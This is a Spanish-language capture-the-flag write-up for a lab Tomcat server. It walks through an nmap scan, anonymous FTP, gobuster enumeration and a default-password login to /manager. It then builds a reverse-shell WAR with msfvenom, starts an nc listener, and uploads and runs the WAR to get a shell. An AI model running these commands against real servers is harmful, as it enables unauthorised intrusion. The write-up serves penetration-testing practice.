

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que nos muestra el puerto 21 abierto con el servicio FTP asociado, donde nos dice que el usuario por defecto esta habilitado y que tiene un archivo llamado `tompcat.txt`. Así que vamos a descargarlo.
```
ftp 172.17.0.2
user: anonymous
password:
get tomcat.txt
```


Veamos que contiene el archivo.


Vemos que nos da el usuario que es `tomcat`, y que le fata la password. Ahora vamos a enumerar el servicio Apache Tomcat 9.0.88.


Ahora vamos a intentar encontrar una especie de login para poder logear.
```
gobuster dir -u http://172.17.0.2:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
```


Vemos que nos muestra una carpeta llamada `/manager`. Así que vamos a ver que esconde.


Vemos que nos muesra un login, así que vamos a probar la contraseñas por defecto.


Vamos a cojer solo las que empiezan por tomcat ya como nos mostraba el archivo txt. Tras porbar con la contraseña `s3cr3t`, vemos que hemos podido acceder.


Podemos observar que podemos subir archivos `.war`, así que podermos intentar realizar una reverse shell adjuntando un archivo malicioso. Pero antes vamos a crear el archivo.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=6969 -f war > reverse.war
```


Una vez lo tenemos creado, nos vamos a poner a la escucha por el puerto que hemos elegido.
```
nc -lnvp 6969
```


Una vez estamos a la escucha, vamos a subir el archivo.


Ahora le daremos click, para poder ejecutar el archivo malicioso. Vemos que se ha ejecutado bien porque hemos obtenido la shell.
